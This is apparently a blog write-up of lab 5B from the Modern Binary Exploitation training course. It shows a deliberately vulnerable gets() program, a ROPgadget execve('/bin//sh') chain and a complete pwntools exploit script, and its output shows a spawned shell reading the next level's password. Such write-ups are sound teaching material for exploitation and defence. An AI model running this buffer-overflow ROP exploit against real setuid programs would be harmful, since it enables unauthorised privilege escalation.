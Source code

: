 ```yaml
---
layout: post
title: Modern Binary Exploitation - Lab 5B
published: True
---
```


For this lab, we are given a program and its corresponding source code:

{% highlight C %}
#include <stdlib.h>
#include <stdio.h>

/* gcc -fno-stack-protector --static -o lab5B lab5B.c */

int main()
{

    char buffer[128] = {0};

    printf("Insert ROP chain here:\n");
    gets(buffer);

    return EXIT_SUCCESS;
}
{% endhighlight %}

We can see that it is statically compiled. Therefore, we cannot perform a traditional ret-2-libc attack and call `system()` since no libraries are dynamically linked.
{% highlight bash %}
lab5B@warzone:/tmp/lab5B$ file /levels/lab05/lab5B
/levels/lab05/lab5B: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=09ad107d6eb5518c5781ccffdad51b39a28e237e, not stripped
{% endhighlight %}

However, this doesn't prevent us from chaining together ROP gadgets to spawn a shell. 

We can generate the ROP chain using `ROPgadget` and place it on the stack, overwriting the saved return address with the first gadget.

{% highlight bash %}
lab5B@warzone:/tmp/lab5B$ ROPgadget --binary /levels/lab05/lab5B --ropchain

[...]

- Step 5 -- Build the ROP chain

	#!/usr/bin/env python2
	# execve generated by ROPgadget

	from struct import pack

	# Padding goes here
	p = ''

	p += pack('<I', 0x0806ec5a) # pop edx ; ret
	p += pack('<I', 0x080eb060) # @ .data
	p += pack('<I', 0x080bbf26) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0x0809a95d) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0806ec5a) # pop edx ; ret
	p += pack('<I', 0x080eb064) # @ .data + 4
	p += pack('<I', 0x080bbf26) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0x0809a95d) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0806ec5a) # pop edx ; ret
	p += pack('<I', 0x080eb068) # @ .data + 8
	p += pack('<I', 0x080544e0) # xor eax, eax ; ret
	p += pack('<I', 0x0809a95d) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080481c9) # pop ebx ; ret
	p += pack('<I', 0x080eb060) # @ .data
	p += pack('<I', 0x080e55ad) # pop ecx ; ret
	p += pack('<I', 0x080eb068) # @ .data + 8
	p += pack('<I', 0x0806ec5a) # pop edx ; ret
	p += pack('<I', 0x080eb068) # @ .data + 8
	p += pack('<I', 0x080544e0) # xor eax, eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x0807b6b6) # inc eax ; ret
	p += pack('<I', 0x08049401) # int 0x80
{% endhighlight %}

Putting everything together, the following exploit will give us a shell.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys
from struct import pack

def exploit(r):
  p = ''
  
  p += pack('<I', 0x0806ec5a) # pop edx ; ret
  p += pack('<I', 0x080eb060) # @ .data
  p += pack('<I', 0x080bbf26) # pop eax ; ret
  p += '/bin'
  p += pack('<I', 0x0809a95d) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x0806ec5a) # pop edx ; ret
  p += pack('<I', 0x080eb064) # @ .data + 4
  p += pack('<I', 0x080bbf26) # pop eax ; ret
  p += '//sh'
  p += pack('<I', 0x0809a95d) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x0806ec5a) # pop edx ; ret
  p += pack('<I', 0x080eb068) # @ .data + 8
  p += pack('<I', 0x080544e0) # xor eax, eax ; ret
  p += pack('<I', 0x0809a95d) # mov dword ptr [edx], eax ; ret
  p += pack('<I', 0x080481c9) # pop ebx ; ret
  p += pack('<I', 0x080eb060) # @ .data
  p += pack('<I', 0x080e55ad) # pop ecx ; ret
  p += pack('<I', 0x080eb068) # @ .data + 8
  p += pack('<I', 0x0806ec5a) # pop edx ; ret
  p += pack('<I', 0x080eb068) # @ .data + 8
  p += pack('<I', 0x080544e0) # xor eax, eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x0807b6b6) # inc eax ; ret
  p += pack('<I', 0x08049401) # int 0x80 
  
  r.recvuntil("here:")
  r.sendline("A"*140+p)
  
  r.interactive()
if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['fixenv', '/levels/lab05/lab5B'])
    print util.proc.pidof(r)
    pause()
    exploit(r)
{% endhighlight %}

{% highlight bash %}
lab5B@warzone:/tmp/lab5B$ python solve.py 
[*] For remote: solve.py HOST PORT
[+] Starting program '/usr/local/bin/fixenv' argv=['fixenv', '/levels/lab05/lab5B'] : Done
[23268]
[*] Paused (press any to continue)
[*] Switching to interactive mode

$ id
uid=1019(lab5B) gid=1020(lab5B) euid=1020(lab5A) groups=1021(lab5A),1001(gameuser),1020(lab5B)
$ cat /home/lab5A/.pass
th4ts_th3_r0p_i_lik3_2_s33
{% endhighlight %}

